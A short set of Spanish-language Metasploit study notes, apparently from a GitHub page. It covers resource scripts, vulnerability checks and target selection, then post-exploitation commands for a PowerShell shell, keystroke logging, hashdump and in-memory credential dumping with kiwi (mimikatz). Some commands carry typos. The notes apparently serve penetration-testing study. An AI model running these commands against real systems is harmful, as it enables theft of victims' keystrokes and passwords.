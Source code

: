 - Los comandos que haya utilizado los puedo guardar con el siguuiente comando
```bash
mf6> makerc ruta.rc
# Ver los comandos que he ejeuctado
exit 
cat ruta.rc
```

- Ejecutar
```bash
msfconsole -r archivo.rc

# Dentro de Metasploit se ejecuta
resource ruta.rc
```
## Explotación

- con el comando check podemos ver si es vulnerable, mandanodo una pequeña traza
- Listamos todo lo que podamos,nos dan un payloa dpor defecto, darle el más adecuado 

```bash
show options
info
```
- Nos darán un target por defecto, le damos el que mejor se adapte
```bash
show targets
set target 0
```

- Usar módulos
```bash
user auxiliar
```

- Recibir una consola de **PS**
```
load powershell
powershell_shell
```
- Keylogger
```bash
keyscan_start
keyscan_dump
keyscan_stop
```

- hashes
```
hashdump
```

- Listar credenciales con **mimi** desde la memoria (que es lo que hace mimi jeje)

```bash
load kiwi
# Recopila las passwds dentro del módulo de mimi
--> creds_all
```
